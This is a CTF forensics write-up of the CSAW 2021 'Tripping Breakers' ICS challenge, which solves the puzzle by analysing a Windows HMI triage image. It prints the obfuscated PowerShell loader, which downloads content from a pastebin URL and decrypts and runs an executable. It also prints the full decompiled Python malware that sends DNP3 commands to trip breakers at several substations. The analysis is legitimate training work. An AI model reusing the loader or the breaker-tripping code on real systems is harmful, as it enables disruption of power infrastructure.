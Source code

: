 ```yaml
---
title: "CSAW 2021: Tripping Breakers"
summary: "Attached is a forensics capture of an HMI (human machine interface) containing scheduled tasks, registry hives, and user profile of an operator account."
date: 2021-09-12
categories:
  - "writeups"
tags:
  - "forensics"
  - "ics"
---
```


**Category:** ICS  
**Points:** 481  
**Provided:**  

- [hmi_host_data.zip](https://github.com/starfleetcadet75/writeups/blob/master/2021-CSAW/tripping-breakers/hmi_host_data.zip?raw=true)

## Challenge

> Attached is a forensics capture of an HMI (human machine interface) containing scheduled tasks, registry hives, and user profile of an operator account.
> There is a scheduled task that executed in April 2021 that tripped various breakers by sending DNP3 messages.
> We would like your help clarifying some information.
> What was the IP address of the substation_c, and how many total breakers were tripped by this scheduled task? Flag format: flag{IP-Address:# of breakers}.
> For example if substation_c's IP address was 192.168.1.2 and there were 45 total breakers tripped, the flag would be flag{192.168.1.2:45}.

## Observations

We are given a minimal triage image from a Windows system that includes a CSV listing scheduled task information, the SOFTWARE registry hive as a JSON file, and the contents of the user profile for the "operator" user.

We can open and sort the scheduled tasks by last run time using Timeline Explorer.
The task that stands out is the Powershell script being run from the `%temp%` directory.

![timeline_explorer](https://raw.githubusercontent.com/starfleetcadet75/writeups/master/2021-CSAW/tripping-breakers/timeline_explorer.png)

## Solution

Fortunately for this investigation, the Powershell script can still be found in the provided user directory.
The script uses base64 to obfuscate two registry keys that it pulls values from.

We can search the provided SOFTWARE registry hive to locate both keys.
The first value is a password and the second is the path to a text file, which is also provided with the triage image.

```powershell
# Decodes to "HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell"
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
$SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64 String($SCOP));

# Reads the string "M4RK_MY_W0Rd5" from the registry key "Blast"
$E = (Get-ItemProperty -Path $SLPH -Name Blast)."Blast";

# Decodes to "HKLM:\SOFTWARE\Microsoft\Wbem\Tower"
$TWR = "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");
$BRN = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($TWR));

# Reads the string "\EOTW\151.txt" from the registry key "Off"
$D = (Get-ItemProperty -Path $BRN -Name Off)."Off";

# Decrypt the contents of 151.txt and save them as fate.exe
openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "c:\1\fate.exe";
C:\1\fate.exe;
```

We can directly run the openssl command ourselves using the deobfuscated arguments to recover the [fate.exe](https://github.com/starfleetcadet75/writeups/blob/master/2021-CSAW/tripping-breakers/fate.exe?raw=true) program.

```none
$ file 151.txt
151.txt: openssl enc'd data with salted password, base64 encoded
$ openssl aes-256-cbc -a -A -d -salt -md sha256 -in 151.txt -pass pass:"M4RK_MY_W0Rd5" -out fate.exe
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
$ file fate.exe 
fate.exe: PE32+ executable (console) x86-64, for MS Windows
```

We can quickly determine from the strings that this program is actually just a Python script bundled with PyInstaller.

```none
$ strings -n15 fate.exe
PyUnicode_AsUTF8
Failed to get address for PyUnicode_AsUTF8
Error loading Python DLL '%s'.
Error detected starting Python VM.
Failed to get _MEIPASS as PyObject.
PyInstaller: FormatMessageW failed.
PyInstaller: pyi_win32_utils_to_utf8 failed.
```

We can use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract the Python script and then decompile the outputted pyc file using [uncompyle6](https://pypi.org/project/uncompyle6/).

```none
python3.6 pyinstxtractor.py fate.exe
uncompyle6 fate.exe_extracted/trip_breakers.pyc
```

Each Python version can [introduce slight changes](https://github.com/NationalSecurityAgency/ghidra/issues/1165#issuecomment-546714347) to the way that the marshalling and bytecode work.
In order to completely recover the [full Python script](https://github.com/starfleetcadet75/writeups/blob/master/2021-CSAW/tripping-breakers/trip_breakers.py?raw=true), we must run both tools explicitly using Python 3.6.
This can be done in a virtual environment using pyenv to avoid messing with the system default.

```python
# uncompyle6 version 3.7.4
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.6.0 (default, Sep 12 2021, 07:24:49) 
# [GCC 10.3.0]
# Embedded file name: trip_breakers.py
import struct, socket, time, sys
from crccheck.crc import Crc16Dnp

OPT_1 = 3
OPT_2 = 4
OPT_3 = 66
OPT_4 = 129

class Substation:
    def __init__(self, ip_address, devices):
        self.target = ip_address
        self.devices = []
        self.src = 50
        self.transport_seq = 0
        self.app_seq = 10

        for device in devices:
            self.add_device(device)

        self.connect()

    def connect(self):
        print('Connecting to {}...'.format(self.target))
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.target, 20000))
        print('Connected to {}'.format(self.target))

    def add_device(self, device):
        self.devices.append({'dst':device[0],  'count':device[1]})

    def activate_all_breakers(self, code):
        for device in self.devices:
            dnp3_header = self.get_dnp3_header(device['dst'])
            for x in range(1, device['count'] * 2, 2):
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_1, code)
                self.socket.send(dnp3_packet)
                time.sleep(2)
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_2, code)
                self.socket.send(dnp3_packet)
                time.sleep(5)

    def get_dnp3_header(self, dst):
        data = struct.pack('<H2B2H', 25605, 24, 196, dst, self.src)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        return data

    def get_dnp3_data(self, index, function, code):
        data = struct.pack('<10BIH', 192 + self.transport_seq, 192 + self.app_seq, function, 12, 1, 23, 1, index, code, 1, 500, 0)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        data += struct.pack('<HBH', 0, 0, 65535)
        self.transport_seq += 1
        self.app_seq += 1
        if self.transport_seq >= 62:
            self.transport_seq = 0
        if self.app_seq >= 62:
            self.app_seq = 0
        return data

def main():
    if socket.gethostname() != 'hmi':
        sys.exit(1)

    substation_a = Substation('10.95.101.80', [(2, 4), (19, 8)])
    substation_b = Substation('10.95.101.81', [(9, 5), (8, 7), (20, 12), (15, 19)])
    substation_c = Substation('10.95.101.82', [(14, 14), (9, 16), (15, 4), (12, 5)])
    substation_d = Substation('10.95.101.83', [(20, 17), (16, 8), (8, 14)])
    substation_e = Substation('10.95.101.84', [(12, 4), (13, 5), (4, 2), (11, 9)])
    substation_f = Substation('10.95.101.85', [(1, 4), (3, 9)])
    substation_g = Substation('10.95.101.86', [(10, 14), (20, 7), (27, 4)])
    substation_h = Substation('10.95.101.87', [(4, 1), (10, 9), (13, 6), (5, 21)])
    substation_i = Substation('10.95.101.88', [(14, 13), (19, 2), (8, 6), (17, 8)])

    substation_a.activate_all_breakers(OPT_3)
    substation_b.activate_all_breakers(OPT_4)
    substation_c.activate_all_breakers(OPT_4)
    substation_d.activate_all_breakers(OPT_4)
    substation_e.activate_all_breakers(OPT_3)
    substation_f.activate_all_breakers(OPT_4)
    substation_g.activate_all_breakers(OPT_3)
    substation_h.activate_all_breakers(OPT_4)
    substation_i.activate_all_breakers(OPT_4)

if __name__ == '__main__':
    main()
# okay decompiling fate.exe_extracted/trip_breakers.pyc
```

The script shows that substation_c's IP address is 10.95.101.82.
The list passed as the second argument to the `Substation` class is used to provide the destination address and count of each device connected to that substation.
The second element inside each tuple provides the count of devices that we need to use.
Adding all of the values together incorrectly shows 257 devices.

The question is asking us how many breakers were actually tripped.
Since we have established that substation_c had its breaker's tripped, we can assume that each substation that received a packet using `OPT_4` was tripped.
Adding only the values from these substations yields the correct answer of 200 total breakers.

**Flag:** `flag{10.95.101.82:200}`
